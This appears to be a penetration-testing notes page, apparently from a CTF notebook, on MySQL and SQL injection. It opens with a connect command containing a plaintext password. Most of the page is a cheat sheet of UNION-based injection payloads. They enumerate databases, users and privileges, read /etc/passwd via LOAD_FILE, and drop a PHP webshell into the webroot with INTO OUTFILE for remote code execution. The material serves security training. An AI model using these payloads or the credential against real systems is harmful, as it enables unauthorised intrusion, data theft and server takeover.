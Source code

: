 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# MySQL (3306)

## Usage

{% tabs %}
{% tab title="Connect" %}
```bash
mysql -h localhost -u lewis -pP4ntherg0t1n5r3c0n##
```
{% endtab %}
{% endtabs %}

For an example of MySQL usage see [Devvortex](../../boxes/easy/devvortex.md).

## SQLi

{% hint style="info" %}
The `INFORMATION_SCHEMA` database contains metadata about the server databases and tables. Its `SCHEMATA` table contains information about all server databases.
{% endhint %}

{% hint style="danger" %}
On the below commands, the comment at the end includes a space: `-- ! The #` symbol can also be used.
{% endhint %}

{% tabs %}
{% tab title="DBs" %}
```bash
a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```
{% endtab %}

{% tab title="Current DB" %}
```bash
a' UNION select 1,database(),2,3-- 
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```bash
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```
{% endtab %}
{% endtabs %}

The `FILE` privilege is needed to **READ** files.

{% tabs %}
{% tab title="User (1)" %}
```bash
a' UNION SELECT 1, user(), 3, 4-- 
```
{% endtab %}

{% tab title="User (2)" %}
```bash
a' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```
{% endtab %}

{% tab title="Privileges" %}
{% code overflow="wrap" %}
```bash
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 
```
{% endcode %}
{% endtab %}

{% tab title="SUPER_PRIV" %}
```bash
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```
{% endtab %}

{% tab title="READ" %}
```bash
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endtab %}
{% endtabs %}

To **WRITE** files, in addition to the `FILE` privilege, the `secure_file_priv` variable must be disabled and the user must have write access to the location we want to write to.

| SECURE\_FILE\_PRIV value | PERMISSIONS                             |
| ------------------------ | --------------------------------------- |
|                          | Read files from anywhere.               |
| random\_directory        | Only read from the specified directory. |
| NULL                     | Cannot read/write anywhere.             |

{% tabs %}
{% tab title="SECURE_FILE_PRIV" %}
{% code overflow="wrap" %}
```bash
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--  
```
{% endcode %}
{% endtab %}

{% tab title="WRITE" %}
{% code overflow="wrap" %}
```bash
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```bash
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
{% endcode %}
{% endtab %}
{% endtabs %}

To write a webshell, we must know the **webroot**. We can find it is by using `load_file` to read the server configuration:

<table><thead><tr><th width="144">Server</th><th>Directory</th></tr></thead><tbody><tr><td>Apache</td><td>/etc/apache2/apache2.conf</td></tr><tr><td>Nginx</td><td>/etc/nginx/nginx.conf</td></tr><tr><td>ISS</td><td>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</td></tr></tbody></table>

## Resources

{% tabs %}
{% tab title="Man" %}
{% embed url="https://linux.die.net/man/1/mysql" %}
{% endtab %}

{% tab title="CheatSheet" %}
{% embed url="https://devhints.io/mysql" %}
{% endtab %}
{% endtabs %}
